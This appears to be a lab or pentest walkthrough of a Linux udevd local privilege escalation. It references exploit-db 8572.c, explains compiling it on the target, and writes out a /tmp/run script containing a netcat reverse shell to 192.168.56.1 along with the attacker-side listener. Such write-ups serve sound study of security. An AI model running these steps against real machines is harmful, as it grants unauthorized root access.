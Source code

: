 # UDEVD

the exploit code is here:

#### `/usr/share/exploitdb/exploits/linux/local/8572.c`

we have to send it to victim machine and compile it there

after transferring and compiling with gcc 8572.c -o exploit , we have to create the file /tmp/runafter executing the exploit every command inside the run file will be executed as root. so we can write the run file like this:

#### `#!/bin/bash` `nc -nv 192.168.56.1 1234 -e /bin/bash`

on attacker side:

#### `nc -nvlp 1234`

now we have to find the PID (process identifier) of the Netlink socket, which is usually the PID of the UDEVD process minus one. We can do that by running cat /proc/net/netlink, and the only nonzero PID should be the number we want. Verify that this is correct by running ps aux | grep udev — it should be one number higher.

![](../../../.gitbook/assets/udevd1.png)

now run the exploit and we have a root shell in netcat:

![](../../../.gitbook/assets/udevd2.png)
